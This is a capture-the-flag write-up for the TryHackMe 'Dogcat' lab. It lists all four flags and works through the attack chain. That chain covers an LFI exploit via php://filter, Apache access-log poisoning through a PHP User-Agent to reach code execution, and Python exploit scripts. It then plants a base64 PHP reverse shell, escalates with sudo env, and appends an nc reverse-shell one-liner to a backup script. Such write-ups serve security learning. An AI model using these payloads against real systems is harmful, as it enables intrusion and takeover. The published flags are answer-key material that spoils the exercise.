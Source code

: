 # Dog Cat

## Task 1  Dogcat
+ What is flag 1?`THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`
+ What is flag 2?`THM{LF1_t0_RC3_aec3fb}`
+ What is flag 3?`THM{D1ff3r3nt_3nv1ronments_874112}`
+ What is flag 4?`THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

## Hands on CTF 
### Reconnaise
+ Enumeration using nmap `nmap -sC -sV MACHINE_IP > nmap_log`
+ Enumerating http and found LFI on `?view=` parameter try to read `index.php` using `php://filter/read=dogs/../convert.base64-encode/resource=index`
+ Decode it analize the code it check if not have a parameter ext than it will added `.php` on the last include 
```php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
```
+ So find our way to make LFI as RCE using checking `apache log file` and we found it `/var/log/apache2/access.log` 

### Weaponize
+ Create a simple python script `abuse.py` 
```python
import requests

uRL = 'http://10.10.164.84/?'
v = 'dogs/../../../../../var/log/apache2/access.log'
parameters = {'ext':'','view':v}
header = {
    'User-Agent':"<?php echo system($_GET['c']);?>"
}
r= requests.get(uRL, params=parameters, headers=header)
print(r.text)
```
+ Run it `python3 abuse.py` and now we got RCE using `dogs/../../../../../var/log/apache2/access.log&ext=&c={COMMAND}`
+ Using cyberchef encode `PHP Reverse Shell` to base64 and use simple python script `expt.py` to generate the file on target
```python
import requests

uRL = 'http://10.10.164.84/?'
v = 'dogs/../../../../../var/log/apache2/access.log'
payload ='echo PD9waHAKLy8gcGhwLXJldmV...[ more stuff ]...0KfQoKPz4= | base64 -d > /var/www/html/shell.php'
parameters = {'ext':'','view':v,'c':payload}
r= requests.get(uRL, params=parameters)
print(r.text)
```
+ Run it using `python exp.py` and the output will generate `shell.php` on `/var/www/html/`
+ Listen to the port we are setup on base64 at cyberchef and access the `http://MACHINE_IP/shell.php` to gain a revershell

### Escalation
+ Checking is user `www-data` have a sudo with `sudo -l` it's return `(root) NOPASSWD: /usr/bin/env`
+ Then we can use command `sudo env /bin/sh` and we got root shell on container
+ Time for loot. We can use `find / -type f -iname "*flag*" 2>dev/null`
```bash
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
/root/flag3.txt

cat /var/www/html/flag.php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
cat /var/www/flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
cat /root/flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```
+ We Still need to find flag 4. So we need to Evade from container
+ After some research we got file `backup.sh` on `/opt/backup` abuse the file using 
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 1234 >/tmp/f" >> backup.sh
```
+ Listen on port 1234 and we got real root terminal and loot for last flag on `/root`
```bash
root@dogcat:~# cat flag4.txt
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```